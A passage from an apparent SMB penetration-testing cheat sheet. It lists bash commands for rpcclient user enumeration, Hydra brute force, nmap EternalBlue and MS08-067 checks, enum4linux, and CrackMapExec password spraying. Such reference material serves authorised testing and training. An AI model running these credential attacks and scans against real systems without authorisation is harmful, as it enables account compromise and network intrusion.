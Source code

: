 #### Using rpcclient for user enumeration
```bash
# Connect with rpcclient
rpcclient -U "<username>%<password>" <target_ip>

# Enumerate users
enumdomusers
queryuser <rid>
lookupnames <username>
```

#### SMB User Brute Force with Hydra
```bash
hydra -L userlist.txt -P passwordlist.txt <target_ip> smb
```

### 4. Vulnerability Scanning

#### Using nmap for SMB vulnerability assessment
```bash
# Check for all SMB vulnerabilities
nmap --script smb-vuln* -p139,445 <target_ip>

# Check for specific vulnerabilities
nmap --script smb-vuln-ms17-010 -p445 <target_ip>  # EternalBlue
nmap --script smb-vuln-ms08-067 -p445 <target_ip>  # NetAPI
```

### 5. Comprehensive Enumeration

#### Using enum4linux
```bash
enum4linux <target_ip>

# Targeted enumeration
enum4linux -u <username> -p <password> -S <target_ip>  # Shares only
enum4linux -u <username> -p <password> -U <target_ip>  # Users only
enum4linux -u <username> -p <password> -P <target_ip>  # Password policy
```

## SMB Exploitation Techniques

### 1. Password Attacks

#### SMB Password Spray with CrackMapExec
```bash
crackmapexec smb <target_ip> -u users.txt -p 'Password123'
```

#### Password Dictionary Attack
```bash
crackmapexec smb <target_ip> -u <username> -p passwords.txt
```
